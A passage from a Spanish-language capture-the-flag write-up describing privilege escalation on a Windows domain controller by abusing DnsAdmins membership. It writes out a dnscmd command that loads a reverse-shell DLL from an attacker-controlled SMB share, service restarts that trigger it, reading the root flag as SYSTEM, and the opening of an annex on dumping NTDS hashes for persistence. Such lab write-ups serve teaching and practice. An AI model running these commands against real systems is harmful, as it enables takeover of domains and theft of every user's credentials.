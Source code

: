 ```powershell
PS C:\> dnscmd.exe /config /serverlevelplugindll \\10.10.14.11\shares\reverse_shell.dll
```

   Aquí, `/config` se usa para cambiar la configuración del servidor, y `/serverlevelplugindll` se usa para especificar la ruta de la DLL que se cargará al iniciar el servidor.

5. **Reinicio del servicio DNS**: Finalmente, se utiliza `sc.exe` para reiniciar el servicio DNS, activando así el payload de la DLL maliciosa. Este comando también se ejecuta en la máquina víctima:

```powershell
PS C:\> sc.exe stop dns
PS C:\> sc.exe start dns
```

   `sc.exe` es una herramienta de línea de comandos para comunicarse con el Controlador de servicios de Windows. Aquí, se usa para detener (`stop`) e iniciar (`start`) el servicio DNS.

La secuencia de estos pasos (a partir del paso número dos) se muestra a continuación en una imagen:

![imagen 2](Pasted image 20230726183654.png)

Siguiendo correctamente estos pasos, se debería recibir una shell inversa en el listener configurado, brindando un control remoto del sistema con privilegios elevados. Si no se recibe la shell inversa inmediatamente, se recomienda reejecutar los comandos `sc.exe stop dns` y `sc.exe start dns` hasta establecer la conexión.

Con la recepción de la shell reversa como `SYSTEM`, se obtiene el nivel más alto de privilegios en el sistema. Esto permite navegar hasta el Escritorio del usuario `Administrator`, donde se puede localizar y visualizar la **segunda flag**. Con esto, se concluye la explotación exitosa de la máquina y la obtención de acceso total al sistema.

Es importante recordar que esta escalada de privilegios se logra gracias a la pertenencia del usuario `ryan` al grupo `DnsAdmins`, que le proporciona los permisos necesarios para modificar la configuración del servidor DNS y así ejecutar código con privilegios elevados.

Aunque la segunda flag ha sido alcanzada, para conseguir una **persistencia robusta en el dominio** se recomienda consultar el [primer punto del Anexo](#anexo-i-volcado-del-ntds-para-persistencia-en-el-dominio). En él, se detalla cómo **volcar la base de datos NTDS** para obtener los hashes NT de todos los usuarios del dominio, lo que permitiría un control total sobre las cuentas de usuario del dominio.

### root.txt

La segunda flag se encuentra en el directorio **Desktop** del usuario **Administrator**:

```powershell
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
d51176deda2ebf***1908f0fe0db6e35
```

## Anexo I: Volcado del NTDS para Persistencia en el Dominio

El NTDS (New Technology Directory Service) es un componente esencial de la infraestructura de Active Directory (AD) en un servidor Windows. Contiene toda la información sobre los objetos en un dominio, incluyendo los datos de los usuarios, grupos, contraseñas (en forma de hashes), y más. Para un atacante, obtener un volcado del NTDS puede proporcionar un control total y persistente sobre todas las cuentas de usuario en un dominio.
